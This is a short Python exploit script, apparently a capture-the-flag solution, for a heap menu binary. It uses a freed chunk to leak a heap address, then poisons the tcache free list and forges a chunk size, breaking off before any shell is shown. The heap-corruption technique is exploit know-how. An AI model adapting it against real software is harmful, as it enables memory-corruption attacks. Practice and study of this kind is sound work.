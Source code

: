 ```python
def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass

ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()

def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
	sla('Your choice:',str(num))

def add(idx,sz):
	cho(1)
	sla('Index:',str(idx))
	sla('Size:',str(sz))

def edit(idx,val):
	cho(2)
	sla('Index:',str(idx))
	ru('Content:')
	sl(val)

def show(idx):
	cho(3)
	sla('Index:',str(idx))

def delete(idx):
	cho(4)
	sla('Index:',str(idx))


for i in range(25):
	add(0,0x78)


add(0,0x38)
delete(0)
show(0)
ru('Content: ')
heap=leak_address()
print('[+]heap: '+hex(heap))


edit(0,p64(heap+0xcb0))
add(0,0x38)
add(0,0x38)
edit(0,p64(0)+p64(0x501-0x20))
add(0,0x58)
delete(0)
show(0)
```